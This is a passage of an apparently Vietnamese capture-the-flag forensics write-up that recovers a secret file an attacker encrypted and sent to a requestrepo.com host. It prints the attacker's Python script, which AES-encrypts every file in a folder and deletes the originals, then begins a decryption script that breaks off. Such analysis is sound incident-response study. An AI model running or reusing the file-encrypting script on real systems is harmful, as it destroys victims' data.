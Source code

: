 **Answer: koshitan,koshian**
#### [7]. What are the contents of the secret file that attacker exfiltrated?
Câu hỏi là file secret đã bị encrypt có nội dung là gì. 
Ta có source encrypt của file mã độc như sau:
```python=
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
from Crypto.Util.Padding import pad, unpad
import os
import base64
import argparse


def aes_encrypt(file_path, key):
    key = base64.b64decode(key)
    iv = get_random_bytes(16)
    plaintext = open(file_path, "rb").read()
    cipher = AES.new(key, AES.MODE_CBC, iv)
    padded_plaintext = pad(plaintext, AES.block_size)
    ciphertext = cipher.encrypt(padded_plaintext)
    encrypt_file_path = file_path + ".enc"
    with open(encrypt_file_path, "wb") as f:
        f.write(base64.b64encode(iv + ciphertext))
    os.remove(file_path)


def main(folder_path,key):
    for root, dirs, files in os.walk(folder_path):
        for file in files:
            file_path = os.path.join(root, file)
            aes_encrypt(file_path, key)


parser = argparse.ArgumentParser(description="Process to exfiltrate data")
parser.add_argument('-k', "--key", type=str, required=True, help="A base64 key to process")
parser.add_argument('-F', "--folder_path", type=str, required=True, help="A folder to exfiltrate")
args = parser.parse_args()
main(args.folder_path, args.key)
```

Cụ thể, nó đã mã hóa các tệp tin bằng cách sử dụng thuật toán AES trong chế độ CBC. Key mã hóa được cung cấp dưới dạng base64, và tệp tin được mã hóa sẽ được lưu với phần mở rộng .enc. Tệp tin gốc sau đó sẽ bị xóa.
Ta vào lại /root/bash_history/ để xem lịch sử của root đã làm gì.
![image](https://hackmd.io/_uploads/rJgKYyKFJl.png)
Ta thấy được rằng kẻ tấn công đã thực hiện encrypt vào thư mục nokotan sau đó xóa đi secret.txt.enc. Có vẻ như sau đó kẻ tấn công đã xem nội dung bị encrypt của secret sau đó gửi tới nfjijju2.requestrepo.com. Như hình trên, ta đã có được key mã hóa cùng với nội dung đã bị encrypt của file secret. Giờ ta có code decrypt như sau:
```python=
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64


def aes_decrypt_and_print(f, key):
    # Giải mã khóa từ base64
    key = base64.b64decode(key)
    # Giải mã chuỗi đầu vào từ base64
    data = base64.b64decode(f)
    # Lấy IV từ dữ liệu giải mã (16 byte đầu tiên)
    iv = data[:16]
    # Lấy ciphertext từ dữ liệu giải mã (phần còn lại)
```